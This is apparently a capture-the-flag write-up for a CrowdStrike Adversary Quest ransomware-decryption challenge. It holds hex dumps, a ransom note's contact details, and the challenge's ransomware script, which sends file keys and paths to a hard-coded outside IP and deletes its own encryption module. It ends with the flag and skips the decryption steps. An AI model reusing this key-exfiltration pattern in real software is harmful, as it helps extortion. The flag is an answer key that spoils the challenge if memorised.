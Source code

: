 # Crowdstrike Adversary Quest 2022 / Catapult Spider / #3 So Much Bits

## Challenge Description

Unfortunately, after infection, the ransomware managed to encrypt all the customer's important files. Thanks to your help, we were able to determine the infection path and delete the control panel as well as the running ransomware. This also enabled us to gain access to the files on the disk of an infected Linux host. You can find the restored files attached. They are still encrypted, though, but at least the ransomware left some files. Please figure out whether there is a chance to decrypt the files without paying the ransom.

## Challenge Files

```console
$ ls -laR       
.:
total 5
drwxr-xr-x 1 501 dialout  192 Jul 31 10:48 .
drwxr-xr-x 1 501 dialout  288 Jul 31 10:44 ..
-rw-r--r-- 1 501 dialout  191 Jul 18 19:37 keys.db
drwxr-xr-x 1 501 dialout  128 Jul 31 10:48 notes
-rw-r--r-- 1 501 dialout  785 Jul 18 19:37 such_note_much_ransom.txt
-rwxr-xr-x 1 501 dialout 1084 Jul 31 10:46 victim_script.py

./notes:
total 2
drwxr-xr-x 1 501 dialout 128 Jul 31 10:48 .
drwxr-xr-x 1 501 dialout 192 Jul 31 10:48 ..
-rw-r--r-- 1 501 dialout 100 Jul 18 19:37 grocery.txt.enc
-rw-r--r-- 1 501 dialout 165 Jul 18 19:37 todo.txt.enc
```

### File *such_note_much_ransom.txt*

A ransomnote written in doge speech.

- Contact mail address is `AllYourDogeAreBelongToDoge@protonmail.com`.
- Dogecoin wallet `DJR6L7PeDcen9GFzoJnPioRd1tV3wt9X3p`.

### File *keys.db*

Seems to be binary, structure yet unknown.

```console
$ xxd keys.db                                                                  
00000000: 2c00 0000 746f 646f 2e74 7874 2e65 6e63  ,...todo.txt.enc
00000010: e752 8b60 7533 30a0 ba74 e24e 4d2c ef86  .R.`u30..t.NM,..
00000020: 8f5a 7601 1d5b 5bd5 f7dd c6f2 5fdb 1b42  .Zv..[[....._..B
00000030: 0000 0000 2200 0000 2f68 6f6d 652f 6368  ....".../home/ch
00000040: 616c 6c65 6e67 652f 6e6f 7465 732f 746f  allenge/notes/to
00000050: 646f 2e74 7874 2e65 6e63 0000 0000 2c00  do.txt.enc....,.
00000060: 0000 6365 7279 2e74 7874 2e65 6e63 b02f  ..cery.txt.enc./
00000070: d231 39e8 386d 2dd9 78dd a744 226c 46a9  .19.8m-.x..D"lF.
00000080: 97c6 4fa0 a269 fe23 d38d 9bb4 e602 0000  ..O..i.#........
00000090: 0000 2500 0000 2f68 6f6d 652f 6368 616c  ..%.../home/chal
000000a0: 6c65 6e67 652f 6e6f 7465 732f 6772 6f63  lenge/notes/groc
000000b0: 6572 792e 7478 742e 656e 6300 0000 00    ery.txt.enc....
```

### File *notes/grocery.txt.enc*

Likely one of the restored encrypted files.

```console
$ xxd grocery.txt.enc 
00000000: cc2d a24c fa37 2d8b 2006 27f5 c46a 7f6c  .-.L.7-. .'..j.l
00000010: b6bb edc9 4082 7ff3 6120 6478 03dd f66b  ....@...a dx...k
[...]
```

### File *notes/todo.txt.enc*

And another restored but still encrypted file.

```console
$ xxd todo.txt.enc   
00000000: cc2d a24c fa37 2d8b 2006 27f5 4700 d5eb  .-.L.7-. .'.G...
00000010: d878 4fc6 fbd9 5eae 4fd3 e0c6 117d 3092  .xO...^.O....}0.
[...]
```

What directly gets our attention is that the first 12 bytes (`cc2d a24c fa37 2d8b 2006 27f5`) are the same in both encrypted files.

Could be a re-use of crypto material, but that's still speculation here.

### File *victim_script.py*

This is likely the script that was used to encrypt the above files.

## Analysis of the Encryption Script

```python
[...]
from encrypter import *

def get_encrypted_key_db(data):
    encoded_data = bytearray()
    for _, key, path in data:
        encoded_data += len(key).to_bytes(4, byteorder='little')
        encoded_data += key
        encoded_data += b"\x00\x00\x00\x00"
        encoded_data += len(path).to_bytes(4, byteorder='little')
        encoded_data += f"{path}".encode()
        encoded_data += b"\x00\x00\x00\x00"
    res = requests.post("http://116.202.161.100:57689/encrypt_db", data=b64encode(encoded_data))
    return b64decode(res.text)

def write_key_db(data):
    with open("keys.db", "wb") as h:
        h.write(data)

def main():
    paths = generate_path_list()
    # Encrypt data with military-grade AES-GCM
    encrypted_data = encrypt_files(paths)
    # Delete encryption module to anger security researchers
    os.remove("encrypter.py")
    write_files(encrypted_data)
    key_db = get_encrypted_key_db(encrypted_data)
    write_key_db(key_db)

if __name__ == "__main__":
    main()
```



## Now it's Flag Time!

Flag: **CS{d0g3_s0_n1c3_such_4m4z3}**
